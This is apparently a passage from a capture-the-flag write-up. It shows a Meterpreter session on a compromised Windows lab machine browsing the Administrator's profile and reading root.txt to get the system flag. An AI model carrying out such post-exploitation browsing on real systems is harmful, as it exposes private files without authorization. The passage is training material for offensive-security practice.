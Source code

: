 #### Obtaining the system flag

```bash
meterpreter > cd ..
meterpreter > cd ..
meterpreter > pwd
C:\Documents and Settings
meterpreter > ls
Listing: C:\Documents and Settings
==================================

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40777/rwxrwxrwx  0     dir   2017-03-16 02:07:20 -0400  Administrator
40777/rwxrwxrwx  0     dir   2017-03-16 01:20:29 -0400  All Users
40777/rwxrwxrwx  0     dir   2017-03-16 01:20:29 -0400  Default User
40777/rwxrwxrwx  0     dir   2017-03-16 01:32:52 -0400  LocalService
40777/rwxrwxrwx  0     dir   2017-03-16 01:32:42 -0400  NetworkService
40777/rwxrwxrwx  0     dir   2017-03-16 01:33:41 -0400  john

meterpreter > cd Administrator
meterpreter > ls
Listing: C:\Documents and Settings\Administrator
================================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40555/r-xr-xr-x   0       dir   2017-03-16 02:07:20 -0400  Application Data
40777/rwxrwxrwx   0       dir   2017-03-16 02:07:20 -0400  Cookies
40777/rwxrwxrwx   0       dir   2017-03-16 02:07:20 -0400  Desktop
40555/r-xr-xr-x   0       dir   2017-03-16 02:07:20 -0400  Favorites
40777/rwxrwxrwx   0       dir   2017-03-16 02:07:20 -0400  Local Settings
40555/r-xr-xr-x   0       dir   2017-03-16 02:07:20 -0400  My Documents
100666/rw-rw-rw-  524288  fil   2017-03-16 02:07:20 -0400  NTUSER.DAT
100666/rw-rw-rw-  1024    fil   2017-03-16 02:07:20 -0400  NTUSER.DAT.LOG
40777/rwxrwxrwx   0       dir   2017-03-16 02:07:20 -0400  NetHood
40777/rwxrwxrwx   0       dir   2017-03-16 02:07:20 -0400  PrintHood
40555/r-xr-xr-x   0       dir   2017-03-16 02:07:20 -0400  Recent
40555/r-xr-xr-x   0       dir   2017-03-16 02:07:20 -0400  SendTo
40555/r-xr-xr-x   0       dir   2017-03-16 02:07:20 -0400  Start Menu
40777/rwxrwxrwx   0       dir   2017-03-16 02:07:20 -0400  Templates
100666/rw-rw-rw-  178     fil   2017-03-16 02:07:21 -0400  ntuser.ini

meterpreter > cd Desktop
meterpreter > ls
Listing: C:\Documents and Settings\Administrator\Desktop
========================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  32    fil   2017-03-16 02:18:19 -0400  root.txt

meterpreter > cat root.txt
```

